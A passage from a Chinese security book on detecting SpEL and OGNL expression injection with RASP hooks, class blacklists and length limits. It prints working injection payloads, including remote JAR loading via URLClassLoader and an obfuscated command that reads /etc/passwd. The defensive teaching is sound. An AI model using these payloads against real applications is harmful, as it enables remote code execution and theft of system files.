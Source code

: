 ## 10.4 Hook点与检测算法

一般的，我们只需要获取原始表达式，然后对原始的表达式做关键字符串匹配即可，如果存在指定的特征如命令执行的相关的类，可以简单判定该表达式是否为攻击。
这种检测算法很容易被特殊字符或者特殊语法绕过，如下例子：

```java
// 常规的写法：调用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 短名称写法： java.lang包下的类可以省去包名称，只保留类名称       
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
```
如果检测算法设定的黑名单为字符串`java.lang.Runtime`，而短名称的写法可以实现对黑名单的绕过。

仔细分析OGNL的代码，存在如下代码对执行类的校验：
> 图10-35 OGNL对执行类的校验

![图10-35 OGNL对执行类的校验](../../.vuepress/public/images/book/expression/10-35.jpg)

在1处，获取了被反射执行方法的类，如果方法的类来源于特定类的，如`java.lang.Runtime`、`java.lang.ClassLoader` 和 `java.lang.ProcessBuilder`等，将会抛出异常阻断表达式的执行。

这给我们RASP的Hook点的选择一个很好的提示，Hook类的选择应该关注表达式实际加载的类和执行的方法，而不仅仅是表达式本身。
下面将介绍SpEL和OGNL的Hook点的选择。

### 10.4.1 Hook点的选择

+ SPEL表达式Hook点选择

选择类org.springframework.expression.common.TemplateAwareExpressionParser
的`parseExpression`方法。
该方法的源码如下，通过前面对源码的分析，Hook该方法能够获取需要执行的原始表达式的值。
> 图10-36 TemplateAwareExpressionParser类的parseExpression方法

![图10-36 TemplateAwareExpressionParser类的parseExpression方法](../../.vuepress/public/images/book/expression/10-36.jpg)

从源码分析可以知道SPEL表达式的方法的执行分为2步：第一步是查找类的Class对象，即调用
org.springframework.expression.spel.support.StandardTypeLocator的findType方法，Hook该方法能够获取需要加载的类。
> 图10-37 StandardTypeLocator的findType方法

![图10-37 StandardTypeLocator的findType方法](../../.vuepress/public/images/book/expression/10-37.jpg)

第二步是反射调用方法，表达式中方法的执行最终都在org.springframework.expression.spel.support.ReflectiveMethodExecutor类的execute方法完成，
其源码如下，Hook该方法能够获取被反射的类和方法。
> 图10-38 ReflectiveMethodExecutor类的execute方法

![图10-38 ReflectiveMethodExecutor类的execute方法](../../.vuepress/public/images/book/expression/10-38.jpg)

+ OGNL表达式Hook点选择

选择Hook `ognl.Ognl`类的parseExpression方法来获取原始表达式的值，该方法的源码如下：
> 图10-39 Ognl类的parseExpression方法

![图10-39 Ognl类的parseExpression方法](../../.vuepress/public/images/book/expression/10-39.jpg)


从源码分析可以知道`ognl.OgnlRuntime`类的invokeMethod负责方法调用，其源码如下：
>图10-40 OgnlRuntime类的invokeMethod方法

![图10-40 OgnlRuntime类的invokeMethod方法](../../.vuepress/public/images/book/expression/10-40.jpg)


而`ognl.OgnlRuntime`类的callConstructor方法则负责调用构造器方法，其源码如下：
>图10-41 OgnlRuntime类的callConstructor方法

![图10-41 OgnlRuntime类的callConstructor方法](../../.vuepress/public/images/book/expression/10-41.jpg)

### 10.4.2 表达式注入与检测算法

由于OGNL与SpEL表达式除了Hook点不一样，检测算法几乎一样，这里以SpEL表达式的检测算法为例子说明。

### 10.4.2.1 具备攻击能力的SpEL表达式举例

常见的具备攻击能力的表达式写法如下：
```java
// 使用java.lang.ProcessBuilder执行命令
new java.lang.ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()
// 使用ProcessBuilder执行命令
new ProcessBuilder(new String[]{"open","/System/Applications/Calculator.app"}).start()        
// 使用java.lang.Runtime执行命令
T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")
// 使用Runtime执行命令
T(Runtime).getRuntime().exec(new String[]{"open","/System/Applications/Calculator.app"})
// nashorn 引擎
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// javascript 引擎
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("s=[2];s[0]='open';s[1]='/System/Applications/Calculator.app';java.lang.Runtime.getRuntime().exec(s);")
// 类加载
new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://127.0.0.1:8999/Exp.jar")}).loadClass("Exp").getConstructors()[0].newInstance("127.0.0.1:2333")        
// 反射 java.lang.Runtime
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")
// 反射 java.lang.ProcessBuilder
T(ClassLoader).getSystemClassLoader().loadClass("java.lang.ProcessBuilder").getConstructors()[1].newInstance(new String[]{"open","/System/Applications/Calculator.app"}).start()
```

### 10.4.2.2 类与方法黑名单

通过检测表达式执行过程中加载的类和反射调用的方法，比较容易的识别表达式执行是否存在攻击。
```java
java.lang.Runtime
java.lang.ProcessBuilder
java.lang.UNIXProcess
java.lang.ProcessImpl
java.lang.Classloader
java.lang.Class
java.lang.Thread
java.lang.ThreadGroup
java.lang.System
java.net.URL
java.net.URLClassLoader
javax.naming.InitialContext
javax.script.ScriptEngineManager
org.springframework.cglib.core.ReflectUtils
// ...
```

### 10.4.2.3 表达式最大长度限制

上面列的攻击方式还有其它的变种，如果仅限上面的黑名单类，很容易被绕过。
某个命令执行回显的Poc如下，显然其长度超过了正常表达式的长度。
一般应用的表达式不会太长，因此可以对表达式的长度做一个限制，例如OpenRasp中采用了这个算法。
如SpEL表达式字符串的长度一般在30～200，超过了最大的长度可以记录日志，方便离线分析。
```java
T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character)
        .toString(99)
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(32))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(101))
        .concat(T(java.lang.Character).toString(116))
        .concat(T(java.lang.Character).toString(99))
        .concat(T(java.lang.Character).toString(47))
        .concat(T(java.lang.Character).toString(112))
        .concat(T(java.lang.Character).toString(97))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(115))
        .concat(T(java.lang.Character).toString(119))
        .concat(T(java.lang.Character).toString(100)))
        .getInputStream())
```
